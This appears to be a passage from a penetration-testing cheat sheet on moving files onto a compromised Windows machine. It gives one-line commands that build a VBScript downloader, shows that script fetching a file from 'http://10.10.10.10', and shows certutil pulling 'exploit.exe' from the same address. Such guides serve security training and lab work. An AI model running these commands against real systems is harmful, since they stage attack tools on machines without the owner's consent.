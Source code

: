 #### Uploading Files with VBScript

In my experiance, VBScript is one of the easiest methods of transfering files to a remote Windows. The only downside is that the file size you can transfer is rather limited. I often have trouble transfering anything over 1 MB using this method and have to fall back on other methods (Windows-privesc-check2.exe is much too large to transfer using this method).

- First lets test to see if we can run VBScript
  `echo WScript.StdOut.WriteLine "Yes we can run vbscript!" > testvb.vbs`
- Now we run it to see the results:
  `cscript testvb.vbs`
- If you see the following message, we are good to go with VBScript!:

  ```CMD
  C:\Users\Test>cscript testvb.vbs
  Microsoft (R) Windows Script Host Version 5.812
  Copyright (C) Microsoft Corporation. All rights reserved.

  #Yes we can run vbscript!
  ```

- If you see the following messages, you should move on to PowerShell:

  ```CMD
  C:\temp>cscript testvb.vbs
  This program is blocked by group policy. For more information, contact your system administrator.
  C:\temp>testvb.vbs
  Access is denied.
  ```

Now we can create a very simple downloader script by copying and pasting this single line of code into your windows commandline. I have tried to create a VBS script to download files from a remote webserver with the least possible number of lines of VBS code and I believe this is it.

- If Windows is an older version of windows (Windows 8 or Server 2012 and below) use the following script:

  `CMD C:\> echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs & echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs & echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs`

- If Windows is a newer version (Windows 10 or Server 2016), try the following code:

  `CMD C:\> echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs`

- Now try to download a file to the local path:
  `CMD C:\> cscript dl.vbs "http://10.10.10.10/archive.zip" ".\archive.zip"`

#### Uploading Files with CertUtil.exe

I've found that CertUtil can be quite reliable when all else seems to fail.
  `certutil.exe -urlcache -split -f http://10.10.10.10/exploit.exe`

